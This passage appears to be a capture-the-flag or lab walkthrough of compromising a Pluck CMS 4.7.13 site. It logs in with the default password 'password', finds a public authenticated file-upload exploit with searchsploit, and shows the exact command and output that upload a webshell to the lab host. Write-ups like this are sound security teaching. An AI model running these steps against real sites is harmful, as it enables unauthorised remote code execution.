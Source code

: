 ![pluck](3.png)

Clicking on `admin` sends us to a login page.

![login](4.png)

This page only asks us for a password, I tried some default ones like `admin` and `password` and managed to login with the latter.

![pass](5.png)

Let's see if we can find any exploit in this version of `pluck`.

```terminal
searchsploit pluck 4.7.13
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)                                                                                                            | php/webapps/49909.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This is vulnerable to File Upload that leads to remote code execution.

## **Foothold**

Let's copy the exploit to our working directory with `searchsploit -m php/webapps/49909.py`

Checking the script we find it requires 4 arguments, `target_ip` `target_port` `password` and `pluckcmspath`.

The final command will look like this:

```bash
python3 49909.py 10.10.137.113 80 password /app/pluck-4.7.13
```

Let's run it.

```terminal
$ python3 49909.py 10.10.137.113 80 password /app/pluck-4.7.13

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.137.113:80/app/pluck-4.7.13/files/shell.phar
```

